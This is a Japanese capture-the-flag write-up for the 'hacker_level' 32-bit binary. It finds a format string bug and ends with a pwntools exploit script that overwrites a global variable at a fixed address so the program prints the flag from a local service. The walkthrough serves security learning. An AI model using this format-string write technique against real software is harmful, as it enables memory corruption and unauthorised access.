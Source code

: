 # hacker level writeup

## バイナリを調べる
> $ file hacker_level  
hacker_level: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=29288494155b99bcb97cd3af0961c9a34d307be2, not stripped  

32bitバイナリですね。IDAで開けそう。

> gdb-peda$ checksec  
CANARY    : ENABLED  
FORTIFY   : disabled  
NX        : ENABLED  M
PIE       : disabled  
RELRO     : Partial  

まぁ普通のやつっすね。

## プログラムの挙動
> $ ./hacker_level  
What's your name? segfo%d  
Hello, segfo64  
Sorry, you're not leet enough to get the flag :(  
Your hacker level is: 0x266d  
$  

フォーマットストリングバグ(FSB)に対して攻撃出来そう。  
別の入力値ではどうなるか  

> $ ./hacker_level  
What's your name? hogeh%d  
Hello, hogeh64  
Sorry, you're not leet enough to get the flag :(  
Your hacker level is: 0x3406  

入力文字列によって your hacker level is の数値が変わっている。  

## IDAで見てみる
![IDA01.png](./IDA01.png)  
入力が上のリストで
出力・分岐が下のリスト

> cmp     ds:level, 0CCC31337h  

どうやらこの条件で分岐しているらしい。  
グローバル変数のlevelに0x0ccc31337が入っているときにフラグを読み取れる。  
フォーマットストリング経由で書き換えできるので  
level変数を0x0ccc31337に書き換えてしまえばいい。  

## アドレスを調べる
levelを書き換えるといってもアドレスを知らないといけないので、levelのアドレスを調べる

![IDA02.png](./IDA02.png)

0x0804A04Cにあるらしい。
じゃあここを書き換えよう。

## exploit
```#!/usr/bin/python
from pwn import *
# *0804A04C = 0xCCC31337をFSBでしたい

# まずは次の1行のコードで
# *(int*)0x0804A04C = 0xCCC31337
# こんなことをやろうと思ったが失敗
#writes = {0x0804A04C:0xCCC31337}

# デバッガで見たところ、0x7070707を引いた値になっていたので、足してやる。
writes = {0x0804A04C:0xCCC31337+0x7070707}

# ペイロードの生成
payload = fmtstr_payload(7,writes,numbwritten = 7)
# 接続
r = remote("localhost",11111)
r.write(payload+'\n')
# フラグの受信と表示(たまに表示するのを忘れて  
# フラグでねーぞ？ってなるので注意ですね)  
print r.recvall()
r.close()
```
本物のフラグは手元になかったので、  
一先ずバイナリと同じディレクトリに flag.txt を置いて  
そのファイルに書いたデータと同じものが取れたら成功です。
